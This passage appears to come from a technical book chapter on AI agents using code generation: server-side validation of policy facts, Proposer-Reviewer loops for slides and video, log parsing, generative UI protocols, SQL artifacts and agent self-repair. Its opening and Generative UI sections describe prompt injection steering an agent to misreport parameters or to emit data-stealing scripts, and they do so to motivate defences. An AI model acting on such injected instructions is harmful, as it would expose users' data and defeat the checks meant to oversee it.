**Second level: server-side ground-truth validation as the gatekeeper.** Note the key design in the code: cabin class, insurance status, booking time, segment usage, and flight status are all queried from the database by the server; the current time comes from the server clock. **No policy fact comes from the model's self-reported parameters.** This is not redundant caution: the model may hallucinate or be manipulated by prompt injection — as analyzed in the "fatal three elements" earlier, agents within the same context cannot prove their own innocence. If `cabin_class`, `has_insurance`, and even `current_time` were designed as parameters filled in by the model, the "gatekeeper" would be rendered useless if the model reported (or was induced to report) even one incorrect value. The last line of defense must be built on data that the model cannot forge — this is consistent with the earlier stance that "critical operations require independent verification": independence refers not only to an independent model but also to an independent data source.

The three-tier safeguard is thus complete: (1) natural language rules in the system prompt aid understanding and explanation; (2) tool descriptions and parameter design serve as a checklist, guiding the model to explicitly verify conditions before calling; (3) server-side code-based validation using database ground truth acts as the final gatekeeper. The first two tiers reduce the occurrence of errors, and the third ensures that errors do not become irreversible losses.

> **Experiment 5-3 ★★: Small models improve rule execution accuracy through code-based knowledge**
>
> **Experiment objective**: Verify that small-parameter models (Qwen3-4B) significantly improve the accuracy and consistency of complex policy execution through code-based business rules.
>
> **Technical approach**: Design a controlled experiment based on the τ-bench airline customer service scenario. **Control group**: Pure natural language rules, relying on the model's own reasoning. **Experimental group**: Three-tier safeguard — system prompt retains natural language rules; tool description lists the complete policy and uses optional `expected_*` parameters to guide the model to check each condition one by one before calling (checklist); the tool internally performs code-based validation based on simulated database ground truth (all policy facts are obtained from the database, time is taken from the server clock, and the model's self-reported parameters are not trusted). Evaluation metrics: task success rate, number of policy violations, number of invalid tool calls, user experience.
>
> **Expected results**: The experimental group significantly outperforms the control group. More importantly, it is observed that the model autonomously identifies violations when preparing parameters and directly proposes alternatives to the user, verifying the effectiveness of "parameters as a checklist"; at the same time, the proportion of inconsistencies between `expected_*` self-reported values and database ground truth is counted, verifying the necessity of "server-side ground-truth validation" in intercepting erroneous cognition.
>
### Code-driven multimedia generation

The creation of many complex documents is essentially the organization and presentation of structured data. Whether it's a presentation, a technical report, or an interactive application, the underlying structure is defined by code — HTML describes the structure, CSS controls the style, and JavaScript implements interactivity. Traditional document creation relies on WYSIWYG editing through GUI interfaces, but this is neither intuitive nor efficient for agents, as GUI operations require visual understanding and precise coordinate positioning. Through code generation, agents bypass the challenge of visual positioning and gain precise control over documents — the position, style, and content of each element are clearly defined and can be modified and optimized programmatically.

**PPT generation agent.**

PPT creation is often time-consuming and labor-intensive. A typical academic presentation may contain dozens of slides, each requiring careful layout design, key point extraction, and chart selection. If PPT creation is reframed as a code generation problem, the complexity can be greatly simplified. Modern PPT frameworks (such as Slidev) adopt an elegant design philosophy: use Markdown and HTML to define presentation content. Creating a slide only requires writing concise markup language, and the framework automatically handles rendering, layout, and animation. This is extremely friendly to agents that have mastered code generation capabilities.



Generating code alone is not enough. **After the agent writes the code, it does not know the actual rendering effect**: whether the content is too crowded, whether text overflows, whether image sizes are appropriate — these can only be discovered after actual rendering. Therefore, a **Proposer-Reviewer** mechanism (as shown in Figure 5-5) is needed to decouple code writing and quality review into two independent agents:

- **Proposer Agent** is responsible for generating Slidev code, understanding the logical structure of the content, and decomposing it into reasonable pages.
- **Reviewer Agent** runs the code to render each page as an image, uses a Vision LLM (a multimodal large model that can "see" images) to analyze the rendering results from dimensions such as content density, readability, layout reasonableness, and visual aesthetics, and generates **structured improvement suggestions** — not vague "doesn't look good," but specific, actionable guidance (e.g., "Page 3: too much content, consider splitting"; "Page 7: code block font too small, suggest increasing to 14pt"), including fields such as page number, issue type, and severity.

The Proposer receives the feedback, understands the intent, and modifies the code. The new version is submitted again for Reviewer review, iterating until the quality meets the standard or the maximum number of iterations (e.g., 5 rounds) is reached.

The Proposer-Reviewer iterative loop in this chapter shares the same origin as the **pre-approval** application in Chapter 4 — both are instances of the Proposer-Reviewer paradigm: separation of generation and review, independent evaluation by two models. The difference lies in the goal and form: Chapter 4 uses it for security review of irreversible operations, where the reviewer gives approval or rejection for a single operation; this chapter uses it for iterative improvement of content quality — multiple rounds, and the reviewer has access to new information (rendering results) that the proposer cannot see. The core design principles are consistent (shared goal constraints, using different model families to reduce the probability of similar errors, feedback as a special event added to the Proposer's trajectory). The **core advantage** of using a dual-agent division of labor rather than a single-agent loop lies in **context management**: the Reviewer only processes the rendering images of the latest version each time, unaffected by historical versions; the Proposer only accumulates structured text feedback, consuming fewer tokens and making reasoning easier. A single-agent solution would need to accumulate multiple rounds of rendering images for dozens of pages in the same context, quickly exceeding the context limit. This mechanism will be reused in subsequent experiments on video editing and log visualization; Chapter 10 will further explore other multi-agent collaboration modes beyond the Proposer-Reviewer paradigm.

> **Experiment 5-4 ★★: Automatic PPT generation from papers**
>
> **Experiment objective**: Automatically generate high-quality presentations from academic papers, verifying the effectiveness of the Proposer-Reviewer mechanism in content creation quality control.
>
> **Technical approach**: Use the Slidev framework. The Proposer Agent reads the paper PDF, extracts chapter structure, core arguments, and figures, plans the PPT structure, and generates Slidev code page by page. **Key step**: The Reviewer Agent renders screenshots of each page, uses a Vision LLM to check the rendering effect, identifies issues such as text overflow, content crowding, and inappropriate image sizes, and generates structured improvement suggestions. Iterate until the effect meets the standard.
>
> **Acceptance criteria**: Generate 10-20 slides covering the paper's main contributions. Include at least 3 original figures that match the accompanying text. No text overflow in rendering, reasonable layout. Compare the differences in context consumption and generation quality between single-agent self-review vs. Proposer-Reviewer division of labor.
>

> **Experiment 5-5 ★★: Automatic generation of paper explanation videos**
>
> **Experiment objective**: Extend PPT generation capabilities, combining visual and auditory channels to achieve automatic generation of explanation videos.
>
> **Technical approach**: Based on the PPT generation workflow from Experiment 5-4, the agent simultaneously generates conversational explanation text for each slide (guiding narration rather than repetition), calls TTS (text-to-speech) to synthesize speech, and uses ffmpeg to synchronize PPT screenshots with audio to synthesize the video.
>
> **Acceptance criteria**: Video is 5-15 minutes long, display time for each slide precisely matches the speech duration, and the explanation content corresponds to the visual elements.
>
>
> 
>
>
**Video editing agent.**

Using general Computer Use for video editing faces fundamental challenges: the GUI of video editing software is extremely complex, containing numerous timelines, layers, and effect panels. The agent needs to precisely locate these interface elements and edit through mouse and keyboard operations, making precise coordinate output very difficult.

Reframing video editing as an API call and code generation problem greatly reduces complexity. Many professional software tools (such as Blender — an open-source 3D creation and video compositing tool that supports Python scripting; FFmpeg — the command-line Swiss Army knife for audio/video processing) provide programmatic API interfaces that expose core functionality in a structured, composable manner. For example, the Blender Python API allows precise control over operations such as importing, trimming, arranging, adding transition effects, and mixing audio for video clips, with each operation corresponding to a clear function call. For an agent, converting natural language requirements into API calls is far easier than understanding a GUI interface and simulating mouse clicks. Similar to PPT generation, video editing also adopts the Proposer-Reviewer mechanism — the Proposer Agent generates Blender scripts, the Reviewer Agent renders keyframes and uses a Vision LLM to check the effect, providing feedback for modification.

> **Experiment 5-6 ★★: API-based intelligent video editing**
>
> **Experiment objective**: Verify the agent's ability to perform video editing by generating Blender Python API code, and evaluate the role of the vision-feedback-based Proposer-Reviewer mechanism in multimedia content processing.
>
> **Core challenge**: Understanding the user's natural language editing requirements and converting them into precise sequences of API calls, handling various editing operations (trimming, merging, subtitles, audio track mixing, visual effects), and ensuring the generated Python script executes correctly. After the Proposer Agent writes the code, it cannot directly judge the video effect; it must rely on the Reviewer Agent to render and use a Vision LLM to check keyframes.
>
> **Technical approach**: The user provides video material (e.g., raw footage containing scenes like surfing, hiking, skiing) and describes requirements in natural language (e.g., "Cut out the surfing part"). The Proposer Agent uses a video analysis sub-agent with a **two-step localization strategy**:
>
> **Step 1, coarse localization**: Call the sub-agent, passing the video path, a screenshot interval of every 10 seconds, and the target question. The sub-agent uses ffmpeg to capture keyframes, inputs all screenshots along with the question into a Vision LLM, and returns the scene interval (e.g., "Surfing is between 40-110 seconds").
>
> **Step 2, fine-grained localization**: Call the sub-agent again with a narrower range and a screenshot density of every second to precisely locate the boundary time points.
>
> Encapsulating video analysis as a sub-agent prevents a large number of screenshots from occupying the main agent's context. After localization, generate the Blender API script. The Reviewer Agent performs a quick preview, checks keyframes, and provides feedback for modification, iterating until the standard is met before full rendering.
>
> **Acceptance criteria**: The agent can accurately identify different scenes in the video and correctly generate editing scripts based on natural language instructions. The start and end points are accurate (error within 3 seconds). If the instructions include special effects requirements (slow motion, transitions, subtitles), the generated video correctly applies the effects. The Reviewer Agent can detect obvious errors (missing key content, including irrelevant segments) and trigger corrections. The final output video file has the correct format and meets expected quality.
>
### Code as a system adapter

The code in the previous sections mostly produces "human-facing" things — reports, slides, interfaces. The code in this section points in another direction: **connecting machine to machine**. In real systems, the external services that agents need to interact with often lack ready-made SDKs, and their interfaces may not be standardized — documentation may be missing, return formats may be non-standard, and fields may drift with versions. Faced with this situation, agents do not need to wait for someone to pre-write an adaptation layer; instead, they can read the interface documentation on the spot, or directly observe one or two real responses, and generate adaptation code on the fly: construct an HTTP client, assemble authentication headers, parse non-standard return structures, and translate the upstream data model into a shape that the downstream can consume. Code here acts as "universal glue" for connecting arbitrary systems — wherever there is a gap, a piece of glue is generated on the spot to fill it. This is the core of the meta-capability in the "system interface" direction. The log adaptive parsing to be expanded below is a concrete manifestation of this capability in the observability scenario: facing constantly evolving log formats, the agent also relies on generating parsing code on the spot to adapt.

This "universal glue" can also extend to **systems with no API at all**: when an external system only exposes a graphical interface, the agent can first operate the interface through Computer Use (detailed in Chapter 9), then solidify the successfully completed operation sequence into an RPA tool using code — when executing the same task in the future, it directly runs the code, completing the operation with extremely high speed and stability, without needing to call expensive visual reasoning. It can be said that RPA is the extreme form of "system adapter" for interfaces systems; this "workflow recording and solidification" mechanism will be expanded in Chapter 8.

Data processing is one of the most common yet most troublesome tasks in software systems. The root cause lies in the diversity and constant change of data formats. The same system may modify data formats multiple times during its evolution — adding new fields, changing nested structures, introducing new types. Writing parsing code manually for each format incurs extremely high maintenance costs; every format change requires updating the parsing logic, testing compatibility, and deploying a new version.

Code generation provides a completely new approach: let the agent temporarily generate parsing code based on sample data when encountering a new format, allowing the system to automatically adapt to the evolution of data formats without human intervention.

**Agent log parsing and visualization.**

The observability of agent systems depends on the visualization of execution flows. A complex agent task may involve hundreds of steps, including multiple LLM calls, dozens of tool executions, and interactions between multiple sub-agents. Visualizing this data faces multiple challenges: different tools return data in different structures, and formats evolve with system iterations; a complete trajectory may contain hundreds of thousands of characters, requiring a balance between overview and detail.Code generation offers an elegant solution: establishing an auto-repair feedback loop. When the frontend encounters an unparseable log format, instead of displaying an error, it automatically reports the failure information (raw log sample, detailed error) to the Agent. The Agent analyzes the sample data structure and generates frontend code that can correctly parse it. The code is first automatically tested in a virtual browser (verifying parsing correctness, using a Vision LLM to check visualization effects), and upon passing, is hot-updated into the frontend system.

> **Experiment 5-7 ★★★: Adaptive Log Parsing System**
>
> **Experiment Goal**: Build a self-evolving Agent log visualization system.
>
> **Technical Approach**: The initial system only supports basic formats. Frontend detects parsing failure → Reports to Agent → Generates parsing code → Virtual browser testing → Hot-update deployment. The entire process is automated.
>
> **Acceptance Criteria**: Automatically detect failures and trigger learning, generate code that passes automated tests, correctly parse new formats after hot-update.
>
**Agent performs automatic log analysis and problem diagnosis.**

Production environment Agents generate a large volume of trajectory logs (recording the complete process of each task). However, identifying problems, locating root causes, and constructing test cases from these logs is a high-cost endeavor. Problem localization is difficult because task failures can result from collaborative errors across multiple modules; reproduction costs are high because the complexity of the production environment is hard to simulate in a test environment; and fixed problems tend to recur due to a lack of systematic regression testing.

Code generation provides an automated path for diagnosis. The Agent can read production logs, combine them with architecture documents and PRDs (Product Requirement Documents) to automatically determine whether the execution flow meets expectations, and pinpoint the problematic components and modules. Based on the analysis results, it generates structured problem reports (priority, module, description, improvement suggestions) and regression test cases—the test cases reference the problem trajectory ID and key interaction rounds, and the test framework automatically replays them to verify that the fixed system produces correct behavior for the same input. Finally, the Agent connects to GitHub via MCP to create an Issue and assign it to the relevant developer, completing the full automation from problem discovery to task assignment.

> **Experiment 5-8 ★★★: Intelligent Diagnostic System for Production Logs**
>
> **Experiment Goal**: Automatically discover problems from production trajectories, generate test cases, and create work items.
>
> **Technical Approach**: The Agent reads the set of production trajectories, analyzes them in conjunction with system architecture documents and PRDs: identifies problem patterns, locates the involved modules. Generates structured problem reports (priority, module, description, improvement suggestions). Automatically generates regression test cases (referencing trajectory IDs and interaction rounds, automatically replayed and verified by the test framework). Automatically creates Issues on GitHub via MCP.
>
>
> 
>
>
### Code as Generative UI

Traditional Agent systems primarily rely on plain text dialogue for user interaction. However, text, as a linear and singular interaction method, is inefficient in many scenarios. When structured information needs to be collected, repeated Q&A makes the dialogue lengthy; when complex data relationships need to be presented, plain text has limited expressive power; when users need to choose from multiple options, a text list is far less intuitive than a visual interface.

Code generation offers the possibility to break through these limitations: Agents can dynamically generate forms, interactive charts, and even complete web applications, upgrading static text dialogue into rich multimodal interaction. This pattern, where the Agent dynamically generates the interface, is called **Generative UI**.

**A2UI-like Protocols: Standardizing Generative UI.**

When Agents directly generate HTML and JavaScript code as UI, there is a fundamental security problem: the generated code might contain malicious content. For example, if someone deliberately hides an instruction in the input, the Agent could be manipulated by prompt injection, unknowingly generating a script that stealthily steals user data. It's important to clarify the causality: the cause is **prompt injection** (malicious instructions mixed into the Agent's input), while the **effect** of executing malicious scripts and stealing data in the browser is similar to traditional Web XSS (Cross-Site Scripting)—the entire attack shouldn't simply be called XSS. Declarative interface protocols represented by A2UI (Agent-to-User Interface) offer a safer direction: the Agent does not directly generate executable code, but only outputs a "UI description manifest" (in JSON format), such as "Please display a table with 3 rows and 2 columns, titled 'Sales Data'." Upon receiving this manifest, the client renders the interface using its own pre-defined, safe components. This is like a restaurant menu: the customer (Agent) can only order dishes on the menu (pre-defined components), not go into the kitchen and cook themselves (execute arbitrary code). A common confusion needs clarification: AG-UI (Agent-User Interaction, proposed by CopilotKit), despite its similar name, is not a UI description language, but rather a supporting **event/transport protocol** responsible for streaming the Agent's execution state (messages, tool calls, state patches) to the frontend. It can even carry UI payloads like A2UI. Therefore, they are complementary, not of the same category, and should not be listed together as the same "declarative interface protocol."

The core design principle of such protocols is **security-first**: the client maintains a trusted component catalog (e.g., Card, Button, TextField, Table), and the Agent can only request to render components already in the catalog, unable to inject arbitrary code. The client renders using its own native components, not by executing arbitrary HTML generated by the Agent. These protocols typically also support **cross-platform** (the same description renders in React, Flutter, native apps) and **incremental generation** (streaming JSONL format, rendering as it's received).

Of course, the declarative approach is suitable for standardized interaction scenarios (forms, tables, cards), while for highly customized needs (e.g., custom visualizations, game interfaces), direct code generation remains the more flexible choice. Below are specific applications of both patterns.

**Delivering Results with HTML: Replacing Markdown Reports.** Generative UI is not only used during interaction but is also changing the form of the Agent's final **deliverable**. Traditionally, after completing a task, an Agent produces a Markdown report document; but reading through linearly arranged Markdown pages is not very user-friendly. As Agents become more capable of generating frontend code, more practices are shifting towards having them directly produce HTML. Compared to Markdown, HTML deliverables have several distinct advantages. First, **interactive demonstrations**: they can directly show how the system operates in an actionable form, which users often understand at a glance, far better than lengthy text descriptions. Second, **better data visualization**: using charts instead of tables to present data, and building interactive components that allow users to browse, filter, and drill down into details of interest. Third, **continuously improvable deliverables**: an HTML website doesn't have to be a static artifact produced only at the end of a task; it can be continuously supplemented and improved by the Agent as work progresses.

Taking the author's own experience writing a thesis as an example: for each research project, the author maintains an interactive website[^ch5-3]. It serves as both the final deliverable and a living document throughout the research process—the author has the Agent continuously update it as experiments progress. This website serves at least three purposes. First, **experiment data traceability**: the specific data for each experiment, the prompts used, and the LLM's raw responses can all be viewed item by item on the website; laying them out makes it easier to spot issues in data construction, format, and distribution, and to see if there are systematic biases in the LLM's responses and the judge's scoring. Second, **training metric monitoring**: displaying various training curves directly on the webpage for convenient confirmation of whether the model's **internal health metrics** are sound. Borrowing the medical term "internal medicine," these metrics refer to internal signals reflecting the health of the training process itself, such as training and validation loss, gradient norm, learning rate, the model's perplexity (a measure of the model's "confidence" in its own generated content) when outputting tokens, and in reinforcement learning, reward, KL divergence, policy entropy, etc. They differ from final outcome metrics like task accuracy: just as various physiological indicators in a health check-up relate to a person's external performance, internal health metrics can often reveal problems like non-converging loss, exploding gradients, or training collapse much earlier. Third, **operational principle demonstration**: using visualization to present the entire system's operational principle, allowing one to clearly see the structure of this AI-built system at a glance.

[^ch5-3]: The author's research project website can be found at https://01.me/research/ , where each project has a continuously updated interactive website.

**Clarifying User Intent.**

When user requirements are vague or incomplete, the Agent needs to clarify by asking questions to gather necessary information. Products like OpenAI Deep Research typically use text-based Q&A, but this has clear limitations: in terms of efficiency, each question requires a dialogue turn, so ten clarification points need ten interactions; in terms of expressiveness, some questions have dependencies (e.g., "choosing a travel destination" affects the options for "mode of transport"), which plain text struggles to represent.

Through code generation, the Agent can create structured interactive interfaces to replace text-based Q&A. Figure 5-8 illustrates the dynamic form generation process, showing how the Agent transforms clarification questions into a structured interface that can be filled out in one go. The Agent generates an HTML form containing various input controls—text boxes for open-ended information, dropdown menus for predefined options, checkboxes for multiple selections, and date pickers for simplified time input. Going further, the Agent can generate cascading forms—implementing dynamic logic via JavaScript: automatically showing or hiding subsequent questions based on selections, dynamically updating available options. The user fills out the entire form at once, eliminating multiple dialogue rounds, and can clearly see all required information and the logical relationships between questions.




> **Experiment 5-9 ★★: Intent Clarification System with Dynamic Forms**
>
> **Experiment Goal**: Verify the Agent's ability to clarify user intent by dynamically generating HTML forms.
>
> **Technical Approach**: The Agent analyzes the user's request, identifies clarification points, and generates form code with cascading logic. The frontend renders it, the user submits it once, and the Agent parses the JSON data to continue the task.
>
> **Acceptance Criteria**: User inputs "I want to book a flight to Beijing." The Agent generates a form containing: departure city (text input), departure date (date picker), trip type (radio: one-way/round-trip), return date (only displayed when "round-trip" is selected). The user submits all information in one go.
>
**Generating SQL Queries.**

Database querying is a scenario where code generation can significantly enhance the interaction experience. Traditional database access relies on GUI tools or handwritten SQL; the former is cumbersome to operate, and the latter requires the user to have specialized knowledge. An Agent can translate natural language into SQL, but there is a key design choice here: should the Agent execute the SQL and then describe the results in natural language, or should the Agent generate the SQL code as an artifact for the frontend to execute directly?

The first approach seems more "intelligent," but is highly inefficient—the query result might contain thousands of rows in a large table. Having the LLM read this and describe it in text not only consumes a large number of tokens and takes a long time, but more critically, the LLM is very prone to errors when "transcribing" data. A better approach is the **artifact pattern**. Figure 5-9 shows the workflow of an SQL query Agent: the Agent does not read the data itself. Instead, it generates a piece of SQL query code and hands this code as an independent "artifact" to the system. The system takes this SQL and queries the database directly, rendering the retrieved data into a table visible to the user. Throughout this process, data flows directly from the database to the user interface, completely bypassing the LLM "middleman"—the LLM is only responsible for writing the query statement, not for reading thousands of rows of data and then recounting them to the user. This is both fast and accurate.




Going further, the Agent can generate two artifacts forming a pipeline: SQL query + visualization code (e.g., a bar chart). The frontend passes the SQL results directly to the visualization code. The LLM is only responsible for generating the code, not for participating in data transfer—this is the essence of code generation as an interface.

> **Experiment 5-10 ★★: Natural Language Interaction ERP Agent**
>
> ERP (Enterprise Resource Planning) software is a critical system for businesses, typically using a GUI interface where complex operations require multiple mouse clicks. An AI Agent can convert user natural language queries into SQL statements, enabling automated querying.
>
> Requirements: Set up a PostgreSQL database containing two tables: (1) Employee table, including employee ID, name, department, level, hire date, resignation date (NULL means currently employed); (2) Salary table, including employee ID, pay date, salary (one record per month). The Agent automatically answers:
>
> 1. What is the average tenure of each employee?
> 2. How many active employees are in each department?
> 3. Which department has the highest average employee level?
> 4. How many new employees joined each department this year and last year?
> 5. What was the average salary for department A from March of the year before last to May of last year?
> 6. Which department had a higher average salary last year, A or B?
> 7. What is the average salary for employees at each level this year?
> 8. What is the average salary in the last month for employees with tenure of less than one year, one to two years, and two to three years?
> 9. Which 10 employees had the largest salary increase from last year to this year?
> 10. Are there any cases of unpaid wages (employed in a month but no salary record)?
>
**Dynamically Generating Software.**

The ultimate application of code generation capability is to allow the Agent to create software entirely dynamically, from scratch. Anthropic's "Imagine with Claude" demonstrates the boundary of this possibility: the user makes a request, Claude generates the frontend interface and interaction logic in real-time, the user interacts with the generated software, and Claude modifies the code to generate a new interface showing the operation results. Throughout the process, the user sees an application being created from nothing and continuously evolving.

However, this fully dynamic generation model has high cost and latency, making it more suitable as an experiment to demonstrate the boundary of capability. A more pragmatic direction is **customized modification based on existing frameworks**. This "semi-custom" model retains the stability of the base software while opening user control in specific dimensions—the user says "change the button to blue," "add a shortcut menu to the sidebar," "change the font to a more readable style." The Agent understands the requirement and modifies the frontend code, and HMR (Hot Module Replacement, partial hot replacement, preserving application state, taking effect without a full page refresh) takes effect instantly. This transforms a "one-size-fits-all" standard product into a personalized "thousand faces for thousand people" experience.

> **Experiment 5-11 ★★: Conversational Interface Customization System**
>
> **Experiment Goal**: Implement the ability for users to instantly customize the software interface through natural language dialogue, verifying the effectiveness of code generation supported by hot-reload mechanisms in providing personalized user experiences.
>
> **Technical Approach**: Build a basic chatbot application (React frontend + FastAPI backend), with both frontend and backend running in development mode supporting hot reload (React's HMR, FastAPI's reload). Users propose UI customization requirements (colors, fonts, layout, component positions, etc.) during the conversation. The Agent autonomously modifies the code. The hot-reload mechanism automatically detects file changes, the frontend recompiles and refreshes, and the user sees the interface changes in real-time. Supports multiple rounds of iterative customization.
>
### Code Creating Code: Agent BootstrappingThe previous sections demonstrated the application of code generation across various domains—from mathematical reasoning to document creation and interface customization. If we push these capabilities to their limits, a natural question arises: Can an Agent use code generation to create another Agent?

First, we need to clarify the division of labor with Chapter 8. This section discusses Agents using code to **repair and create Agents of their own kind**—self-repair, self-replication, and on-demand reproduction of new Agents—with the target being the Agent's code and structure. Chapter 8's "self-evolution" is a different matter, referring to an Agent's ability to continuously grow its capabilities (accumulating experience, optimizing prompts, building a tool library) **without modifying model weights**, with the target being the Agent's knowledge and strategies. Both can be called "evolution," but to avoid confusion with the chapter title of Chapter 8, this section uses **bootstrapping** to refer to this "code-producing-Agent" capability.





**Agent Self-Repair: OpenClaw Doctor.**

A crucial prerequisite for Agent bootstrapping is the ability to self-repair. The `doctor` command in OpenClaw embodies this capability—it can automatically detect three types of issues:

- **Configuration anomalies**: Expired OAuth tokens, legacy configuration formats, port conflicts
- **State issues**: Stale session lock files, missing plugin dependencies
- **Service health issues**: Gateway not running, missing sandbox images

It then automatically resolves them through a layered repair strategy: safe fixes (configuration normalization, lock file cleanup) are executed automatically; risky operations (service restarts, forced configuration overwrites) require user confirmation.

